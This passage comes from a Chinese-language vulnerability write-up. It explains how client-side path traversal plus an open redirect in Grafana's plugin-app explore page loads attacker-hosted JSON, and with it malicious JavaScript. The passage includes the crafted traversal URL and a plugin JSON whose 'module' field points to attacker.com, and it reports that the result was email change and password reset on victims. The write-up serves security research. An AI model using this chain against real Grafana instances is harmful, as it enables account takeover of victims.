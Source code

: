 但是，如果你加载 /invite/..%2f..%2f..%2f..%2froute  
，JavaScript 会解析路径遍历，最终加载 /route  
。  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGCPEHI2D80nzicEmrbDJdTrZWnR4W2Xb17hvUjOJiaRqu6Dlct41TLHShfqgsH5bzt0AOmmoo5ib6vg/640?wx_fmt=png&from=appmsg "null")  
  
  
这就创造了一个完美的场景，可以强制 JavaScript 加载开放重定向，从而从我的服务器获取特制的 JSON。  
  
但首先，我需要找到一个以不安全方式加载内容的端点，并利用它执行 JavaScript。  
# 加载恶意 JavaScript 文件  
  
你可以使用 /a/plugin-app/explore  
 来加载和管理插件应用。  
  
该功能的 JavaScript 会从 URL 中提取插件应用名称，并用它请求 /api/plugins/plugin-app/settings  
 来获取插件信息。  
  
/api/plugins/plugin-app/settings  
 文件内容如下。  
```
{    "name": "plugin-app",    "type": "app",    "id": "plugin-app",    "enabled": true,    "pinned": true,    "autoEnabled": true,    "module": "/modules/..../plugin-app.js", //js file to load    "baseUrl": "public/plugins/grafana-lokiexplore-app",    "info": {        "author": {            "name": "Grafana"            ...        }    }    ...}
```  
  
/a/plugin-app/explore  
 会加载该文件，并执行 "module"  
 参数中提供的 JavaScript。  
  
/a/plugin-app/explore  
 存在客户端路径遍历漏洞，允许我加载服务器上的任意路由，而不是 /api/plugin-app/settings  
。  
  
这使我能够加载开放重定向，进而获取包含任意 JavaScript 文件的恶意 JSON。  
  
所以基本上，我搭建了自己的服务器，放置所有必要的 JS 和 JSON 文件。  
  
我只需要托管如下格式的 JSON：  
```
{    "name": "ExploitPluginReq",    "type": "app",    "id": "grafana-lokiexplore-app",    "enabled": true,    "pinned": true,    "autoEnabled": true,    "module": "http://attacker.com/file?js=file", //malicious js file    "baseUrl": "public/plugins/grafana-lokiexplore-app",    "info": {        "author": {...}    }    ...}
```  
  
然后加载这个路径，/a/..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23/explore  
，利用了客户端路径遍历和开放重定向漏洞。  
  
结果是：  
  
![img](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSGCPEHI2D80nzicEmrbDJdTrNb3IBbYZibQWIwAJuDe73VGJFkmUR8YibZJ9Px3u3iaG05ZZEk2icMicHxg/640?wx_fmt=png&from=appmsg "null")  
  
  
我的恶意 JavaScript 文件被执行，使我能够更改受害者的邮箱并重置他们的密码。  
# 摘要图解  
  